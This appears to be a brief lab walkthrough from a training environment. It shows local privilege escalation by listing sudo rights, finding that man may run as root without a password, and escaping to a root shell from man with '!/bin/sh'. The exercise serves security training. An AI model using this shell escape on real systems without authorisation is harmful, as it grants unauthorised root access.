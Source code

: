 

- sudo -l
- we get 
user student may run the following commands on attackdefense:
    (root) NOPASSWD: /usr/bin/man

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
- sudo man man !/bin/sh
- id = root